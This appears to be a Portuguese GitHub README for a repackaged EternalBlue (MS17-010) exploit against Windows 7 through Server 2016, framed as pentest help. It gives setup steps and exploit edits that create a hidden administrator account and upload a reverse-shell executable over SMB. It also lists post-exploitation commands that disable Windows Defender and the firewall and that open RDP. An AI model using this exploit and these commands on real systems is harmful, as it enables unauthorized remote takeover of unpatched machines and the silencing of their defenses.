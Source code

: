 # Exploiting Windows 7, 8.1, 2008 R2, 2012 R2, 2016 R2, 2016 Server etc Com Eternalblue SEM METASPLOIT (MS17-010) (CVE 2017-0144)

Script que explora manualmente a vulnerabilidade MS17-010 (CVE 2017-0144 ) e funciona nos sistemas: Windows 7 / 8.1 / 2008 R2 /2012 R2 / 2016 R2 / 2016 Server

**Exploit tirado do exploit-db - [42315](https://www.exploit-db.com/exploits/42315])**

**Testado no Windows Server 2016 Standard Evaluation 14393**

Criei esse respositório pois quando precisei, tive dificuldade para executar o exploit (baixar depedências) e entender o código, sendo assim decidi criar esse repositório para facilitar o pentest caso alguém se depare com o mesmo problema que eu

## Preparando o ambiente para executar o exploit

Necessário python2 (python2.7) 
```bash
$ sudo apt update
$ sudo apt upgrade
$ sudo apt install python2.7
```
Necessário pip2
```bash
$ curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py;
$ python2 get-pip.py;
$ rm get-pip.py;
```
Baixando pacotes necessários
```bash
$ pip2 install --upgrade setuptools;
$ pip2 install impacket==0.9.22
```

## Alterações no exploit
A lógica é usar a função **smb_send_file** para enviar um executável de shell reversa, e a função **service_exec** para executar o código. 
Porém devido ao Windows Defender não da para realizar isso diretamente. 

*A função **service_exec** (linha 923) é onde se localiza o comando que será executado como é mostrado abaixo*
*A função **smb_send_file** (linha 922) envia um arquivo local para a máquina alvo*

- Adicionando um usuário e senha (caso não tenha um usuário válido, tente adicionar apenas o USERNAME como guest)
```python
USERNAME = 'Bob'
PASSWORD = 'P@ss'
```

- Alterações para criar um usuário com acesso de Autoridade
```python 
service_exec(conn, r'cmd /c net user pentester Pentester123 /add') # linha - 923
# criando o usuário 'pentester' com a senha 'Pentester123'
```
```python 
service_exec(conn, r'cmd /c net localgroup administrators pentester /add') # linha - 923
# Adicionando o usuário 'pentester' ao grupo de administradores
```
- Alteração para enviar um arquivo local para a máquina alvo
```shell
smb_send_file(smbConn, '/path_to_your_filel/eternal-blue.exe', 'C', '/eternal-blue.exe') # Arquivo é inserido na raiz (c:\) neste exemplo
```
 
Caso você queira tentar ganhar uma shell reversa vou deixar os comandos necessários abaixo

## Executando o Exploit
```bash
$ python2.7 exploit.py <target ip>
```

## Comandos úteis do Windows para pentest
- Comando para desligar o Firewall do Windows
```shell
netsh advfirewall set currentprofile state off
```
- Comando para desabilitar o Windows Defender
```shell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```
- Comando para habilitar o Windows Defender
```shell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 0 /f
```

- Comando para habilitar a porta 3389 no firewall
```shell
netsh advfirewall firewall add rule name="rpd" protocol=TCP dir=in localport=3389 action=allow
```
- Comando para habilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
- Comando para desabilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```
